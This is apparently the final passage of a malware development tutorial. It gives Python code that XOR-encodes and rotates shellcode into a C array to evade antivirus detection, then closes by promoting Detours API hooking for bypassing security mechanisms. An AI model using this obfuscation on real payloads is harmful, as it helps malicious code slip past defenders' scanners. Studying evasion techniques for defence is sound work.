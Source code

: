 ```py

# Function to rotate left (inverse of the right rotate used in decryption)
def rotl8(value, shift):
    return ((value << shift) & 0xFF) | (value >> (8 - shift))

# XOR encoding with rotation
encoded_shellcode = ""
line_length = 16  # How many bytes per line for readability

for i, b in enumerate(shellcode):
    xor_byte = b ^ xor_key  # XOR operation
    rotated_byte = rotl8(xor_byte, 3)  # Rotate left by 3 bits (encoding)
    encoded_shellcode += f"\\x{rotated_byte:02x}"

    # Add a newline and continuation if at the line length
    if (i + 1) % line_length == 0:
        encoded_shellcode += "\"\n\""

# Output the encoded shellcode in C array format
print(f'unsigned char encoded_shellcode[] = \n"{encoded_shellcode}";')

```

#### AV Results:

![image](https://github.com/user-attachments/assets/10b7ca49-0a35-4dbe-8726-55b5d9e53b70)


## Conclusion

By leveraging API hooking via the Detours library, malware developers can gain control over critical system calls, modify program behavior, and potentially bypass security mechanisms. The ability to seamlessly redirect API functions to custom routines makes Detours a powerful tool in the malware developer's arsenal.

For further details, visit the official [Detours GitHub](https://github.com/microsoft/detours) and experiment with different APIs to see the true potential of this technique in malware development.

